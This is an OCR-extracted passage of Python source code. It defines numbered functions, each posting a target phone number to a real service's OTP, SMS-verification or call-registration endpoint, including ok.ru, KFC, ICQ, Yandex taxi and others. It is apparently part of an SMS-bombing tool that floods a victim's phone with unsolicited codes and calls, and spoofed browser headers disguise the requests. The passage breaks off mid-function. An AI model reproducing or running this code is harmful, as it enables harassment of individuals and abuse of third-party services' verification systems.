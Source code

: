     def sk33(phone):

        d = post('https://api2.1112.com/api/v1/otp/create',

                 json={"phonenumber": phone, "language": "th"}, headers=header).status_code

    def sk34(phone):

        d = post('https://api.1112delivery.com/api/v1/otp/create',

                 json={"phonenumber": phone, "language": "th"}, headers=header).status_code

    def sk35(phone):

        d = post("https://taxi.yandex.kz/3.0/launch/",

                 json={}, headers=header).json()

        d = post("https://taxi.yandex.kz/3.0/auth/",

                 json={"id": d["id"], "phone": f"+66{phone[1:]}"}, headers=header).text

    def sk36(phone):

        s = Session()

        s.headers.update({"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38",

                         "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"})

        s.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",

               data=f"st.r.phone=+66{phone[1:]}")

        s.post("https://ok.ru/dk?cmd=AnonymRegistrationAcceptCallUI&st.cmd=anonymRegistrationAcceptCallUI",

               data="st.r.fieldAcceptCallUIButton=Call")

    def sk37(phone):

        s = Session()

        s.post('https://app.karusel.ru/api/v1/phone/', data={'phone': phone})

    def sk38(_phone):

        post('https://app-api.kfc.ru/api/v1/common/auth/send-validation-sms',

             json={'phone': '+' + _phone})

    def sk39(phone):

        post(f"https://u.icq.net/api/v4/rapi", json={"method": "auth/sendCode", "reqId": "24973-1587490090", "params": {

             "phone": f"66{phone[1:]}", "language": "en-US", "route": "sms", "devId": "ic1rtwz1s1Hj1O0r", "application": "icq"}}, headers=header)

    def sk40(phone):

        post(f"https://findclone.ru/register?phone=+66{phone[1:]}", headers={"X-Requested-With": "XMLHttpRequest",
